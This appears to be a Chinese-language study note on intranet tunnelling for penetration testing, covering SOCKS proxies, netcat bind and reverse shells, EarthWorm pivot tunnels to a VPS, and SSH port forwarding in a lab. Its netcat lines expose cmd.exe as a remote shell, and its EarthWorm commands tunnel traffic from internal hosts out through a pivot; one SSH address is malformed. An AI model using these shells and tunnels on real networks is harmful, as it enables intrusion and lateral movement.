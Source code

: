 ### 参考链接：https://blog.51cto.com/search/user?uid=16169749&q=%E5%86%85%E7%BD%91%E9%9A%A7%E9%81%93

## 1.1、前言

```java
感觉自己流量代理、转发掌握的不太好，重新看一遍。
```

## 1.2、正向反向代理

正向代理，Proxy和Client同属于一个区域，对server是透明的。

（挂梯子）
反向代理：一般情况下，防火墙肯定不能让外网机器随便访问地访问内网机器，所以就提出反向代理。

## 1.3、Socks协议

中文意思：防火墙安全会话转换协议，工作在OSI参考模型的第五层（会话层）

![image-20240723144854867](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240723144854867.png)

因为Socks介于传输层与表示层之间，使用TCP协议传输数据，因而**不提供如传递ICMP信息**之类的网络层相关服务。

目前有两个版本：SOCKS4和SOCKS5

SOCKS4支持TELNET、FTPHTTP等TCP协议；

SOCKS5支持TCP与UDP，并支持安全认证方案。

Ps: Socks不支持ICMP，不能使用ping命令。。记住哦~~~

## 1.4、Natcat

### 正向连接

nc -l -p 5555 -t -e cmd.exe   受害
nc -nvv 192.168.153.138 5555  攻击

### 反向连接

nc -lp 5555   攻击
nc -t -e cmd 192.168.153.140 5555  受害

## 1.5、Earthworm+Proxychains

该工具借用了 ssocks 和 lcx.exe 的操作逻辑，并进行更多的功能强化。

目前工具提供六种链路状态，可通过 -s 参数进行选定，分别为:

ssocksd rcsocks rssocks

lcx_slave lcx_tran lcx_listen

其中 SOCKS5 服务的核心逻辑支持由 ssocksd 和 rssocks 提供，分别对应正向与反向socks代理。

其余的 lcx 链路状态用于打通测试主机同 socks 服务器之间的通路。

lcx 类别管道：

lcx_slave 该管道一侧通过反弹方式连接代理请求方，另一侧连接代理提供主机。

lcx_tran 该管道，通过监听本地端口接收代理请求，并转交给代理提供主机。

lcx_listen 该管道，通过监听本地端口接收数据，并将其转交给目标网络回连的代理提供主机。

通过组合lcx类别管道的特性，可以实现多层内网环境下的渗透测试。

#### 正向SOCKS5服务器（前提：有公网IP）

```java
/ew_for_Win.exe -s ssocksd -l 8888    #受害者主机
然后用proxifier进行连接

然后用kali连接监听的，这里proxychains curl说明通了
```

![image-20240729221550490](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240729221550490.png)

![image-20240729221624497](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240729221624497.png)

#### 反弹SOCKS5服务器

```java
web: 10.10.10.80   192.168.236.202
PC: 10.10.10.201   192.168.236.201
DC: 10.10.10.10
kali: 192.168.236.130
    
通过 web 192.168.236.202做跳板机，然后用
```

在web主机上执行：ew_for_win.exe -s rcsocks -l 1080 -e 8888，意思是在我们公网VPS上添加一个转接隧道，把1080端口收到的代理请求转交给8888端口

![image-20240729223103380](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240729223103380.png)

在目标主机DC上启动SOCKS5服务 并反弹到公网主机的8888端口

ew_for_Win.exe -s rssocks -d 10.10.10.80 -e 8888

#### 二级网络环境(有公网IP)

![image-20240729224934303](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240729224934303.png)

#### 二级网络环境（无公网IPA   利用lcx_slave方式连接）

![image-20240729225339828](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240729225339828.png)

这次操作有四步：

1.在公网vps（45.xxx.xxx.72）添加转接隧道，将10800端口收到的代理请求转交给8888端口

./ew_for_linux64 -s lcx_listen -l 10800 -e 8888

![img](https://image.3001.net/images/20201202/1606876330_5fc6fcaab11b4a7eaa639.png!small)

2.B主机（192.168.153.138）主机正向开启8888端口

./ew_for_Win.exe -s ssocksd -l 9999

![img](https://image.3001.net/images/20201202/1606876345_5fc6fcb91c729c9a16c36.png!small)

3.A主机利用lcx_slave方式，将公网VPS的888端口和B主机的999端口连接起来

./ew_for_Win.exe -s lcx_slave -d 45.xxx.xxx.72 -e 8888 -f 192.168.153.138 -g 9999

![img](https://image.3001.net/images/20201202/1606876355_5fc6fcc315127eb89e1ca.png!small)

现在MyPC可通过访问45.xxx.xxx.72:10800来使用192.168.153.138主机提供的socks5代理，代理成功，vps会有rssocks cmd_socket OK!提示

![img](https://image.3001.net/images/20201202/1606876365_5fc6fccd6023ea2a434d8.png!small)

![img](https://image.3001.net/images/20201202/1606876375_5fc6fcd76a2ad0acc106c.png!small)

## SSH

```java
web: 10.10.10.80   192.168.236.202
PC: 10.10.10.201   192.168.236.201
DC: 10.10.10.10
kali: 192.168.236.130
```



ssh -CfNg -L 3333:192.168.236.7001:3389 192.168.236.1












